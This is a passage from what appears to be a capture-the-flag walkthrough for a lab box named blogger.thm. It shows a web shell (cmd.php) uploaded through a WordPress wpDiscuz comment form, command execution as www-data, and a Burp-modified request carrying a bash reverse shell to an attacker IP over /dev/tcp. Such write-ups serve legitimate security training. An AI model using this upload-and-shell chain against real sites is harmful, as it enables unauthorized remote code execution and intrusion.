 ```shell
Content-Disposition: form-data; name="wc_website"

https://test.com
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="submit"

Post Comment
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="wpdiscuz_unique_id"

0_0
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="wpd_comment_depth"

1
-----------------------------5658711851211151532350158244
Content-Disposition: form-data; name="postId"

29
-----------------------------5658711851211151532350158244--

```

The file `cmd.php` is successfully uploaded and in the Comments section we can a link for `cmd.php` which leads to: `http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/09/cmd-1663615798.9082.php`.

At this point, we can execute code by navigating to: `http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/09/cmd-1663615798.9082.php?cmd=id`

Output:

```shell
GIF87a uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

We are the user `www-data`, so now we want to get a reverse shell.

Intercept this request: `http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/09/cmd-1663615798.9082.php?cmd=id` with Burp Suite, change it as shown below, click on `Forward` and open a netcat listener.


```shell
GET /assets/fonts/blog/wp-content/uploads/2022/09/cmd-1663615798.9082.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/192.168.49.81/443+<%261' HTTP/1.1
Host: blogger.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wpdiscuz_hide_bubble_hint=1; comment_author_email_f401df2453a4515e2d6a824db178db1a=test@test.com; comment_author_f401df2453a4515e2d6a824db178db1a=test; comment_author_url_f401df2453a4515e2d6a824db178db1a=https://test.com
Upgrade-Insecure-Requests: 1


```
